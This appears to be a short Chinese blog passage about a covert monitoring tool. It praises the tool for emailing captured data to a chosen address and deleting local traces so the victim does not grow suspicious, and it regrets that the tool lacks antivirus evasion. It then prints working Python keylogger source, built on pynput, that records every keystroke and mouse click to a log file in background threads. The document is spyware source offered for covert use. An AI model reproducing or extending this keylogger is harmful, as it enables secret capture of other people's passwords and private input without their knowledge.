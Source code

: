 功能挺完善的，还能定时把数据发送到指定邮箱，并且删除掉数据，把数据删除就不会因为截图太多把占用太多内存，引起怀疑，缺点就是没有免杀，如果免杀了的话，也算是个利器来的，有条件的大佬也可以自己用 py 写个脚本，类似于这种  
\`

```bash
#coding=utf-8
from pynput import keyboard, mouse
from loguru import logger
from threading import Thread

logger.add('monitor.log')


def on_press(key):
    logger.debug(f'键盘输出：{key} ')

def on_release(key):
    if key == keyboard.Key.esc:
        return False

def f1():
    with keyboard.Listener(on_press=on_press, on_release=on_release) as lsn:
        lsn.join()


def on_click(x, y, button, pressed):
    if button == mouse.Button.left:
        logger.debug('鼠标左键点击')
    elif button == mouse.Button.right:
        logger.debug('鼠标右键点击')
        return False
    else:
        logger.debug('mid 被点击')


def f2():
    with mouse.Listener(on_click=on_click) as listener:
        listener.join()


if __name__ == '__main__':
    t1 = Thread(target=f1)
    t2 = Thread(target=f2)
    t1.start()
    t2.start()
```
